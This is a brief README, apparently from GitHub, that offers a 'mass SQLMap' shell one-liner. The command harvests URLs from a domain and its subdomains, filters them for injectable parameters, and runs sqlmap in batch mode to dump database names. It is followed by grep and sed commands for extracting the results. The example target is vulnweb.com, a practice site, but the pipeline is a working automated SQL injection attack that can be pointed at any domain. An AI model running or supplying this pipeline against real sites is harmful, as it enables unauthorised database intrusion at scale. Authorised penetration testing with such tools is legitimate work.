 # OneLiner Mass SQLMap

## Tools
- <a href="https://github.com/sqlmapproject/sqlmap/">sqlmap</a>
- <a href="https://github.com/lc/gau">gau</a>
- <a href="https://github.com/tomnomnom/gf">gf</a>
- <a href="https://github.com/1ndianl33t/Gf-Patterns">gf-pattern</a> 
- <a href="https://github.com/dwisiswant0/unew">unew</a>
- grep
- sed

## One Liner Mass SQLMap

```
echo "vulnweb.com" | gau -subs -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,exe | gf sqli | unew >> sqliurls.txt; sqlmap -m sqliurls.txt --batch --dbs | tee -a sqlmap.txt
```

* All log result stored in sqlmap.txt


## Quick find SQLMap result 

<img src="sed.jpg">

** Show line number of logs *sqlmap.txt if get databases with grep keyword *available databases **
```
grep -n "available databases" sqlmap.txt
```

** Slice Output with sed **
```
sed -n 'fromLine,ToLinep' sqlmap.txt
```
* slice from line 147 to line 159 with sed

Thanks :)

Ve

Follow me <a href="https://twitter.com/Verry__D">@Verry__D</a>

Subscribe Infosec Telegram Channel <a href="https://t.me/sec7or">Tools & Writeups</a>

